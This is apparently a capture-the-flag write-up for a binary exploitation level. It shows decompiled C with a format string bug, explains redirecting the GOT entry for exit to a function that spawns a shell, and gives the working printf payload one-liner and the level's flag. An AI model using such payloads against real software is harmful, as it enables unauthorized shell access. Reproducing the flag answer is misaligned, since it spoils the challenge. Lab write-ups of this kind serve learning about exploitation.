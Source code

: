 ```c
void o(void)
{
  system("/bin/sh");
  _exit(1);
}

void n(void)
{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  exit(1);
}

void main(void)
{
  n();
  return;
}
```

Here the idea is the same as writing to a variable, however with a twist: we'll instead write to a pointer !
Since a pointer is basically an int in disguise, we can change it's value with the printf exploit. Since we need to reach the function `o`, we can change the pointer of `exit` to make it point to `o`.

o = `0x080484a4` -> `134513828`
exit = `*0x8049838`

```bash
(python -c 'print "\x38\x98\x04\x08" + "%134513824x%4$n"' ; cat) | ./level5
                                        ^^^^^^^^^ o - 4
```
`d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31`
